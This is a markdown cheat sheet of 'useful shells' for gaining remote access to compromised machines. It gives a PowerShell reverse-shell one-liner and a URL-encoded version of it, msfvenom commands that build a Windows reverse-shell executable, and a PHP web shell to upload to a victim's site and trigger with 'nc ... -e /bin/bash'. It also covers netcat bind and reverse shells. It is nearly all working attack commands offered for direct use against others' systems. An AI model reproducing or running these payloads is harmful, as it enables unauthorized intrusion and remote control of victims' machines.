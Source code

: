 # List of useful shells to keep on hand.

### If python is installed you can make the shell more stable.
* Use Python, Python2 or Python3 as required. ```python -c 'import pty; pty.spawn("/bin/sh")'```
* This allows access to terminal commands. ```export TERM=xterm```
* Background the shell using CTRL+Z. Then in your own terminal enter this ```stty raw -echo; fg``` to turn off terminal echo allowing access to tab autocompletes, the arrow keys, and Ctrl + C and foregrounds the shell.

### Powershell reverse shell. Just need to replace IP and PORT of your choice and copy into cmd.exe or another method of executing commands.
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### URL encoded reverse shell for Windows systens. IP and Port need to be changed.
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

### msfvenom
* ```msfvenom -p <PAYLOAD> <OPTIONS>``` Standard syntax.
* ```<OS>/<arch>/<payload>``` Basic convention.
* ```msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>``` Windows x64 Reverse Shell in an exe format (staged).

### Simple example of a PHP reverse shell.
* Start you listener. ```nc -lvnp <PORT>```
* Save this to a file then upload to a viticim webpage. ```<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>```
* Within the address bar enter the following. ```<LOCATION OF FILE>/shell.php?cmd=nc <IP> <PORT> -e /bin/bash```

### Netcat shells.
* Listener ```nc -lvnp <PORT> -e /bin/bash```
* Connect via ```nc <IP> <PORT>```
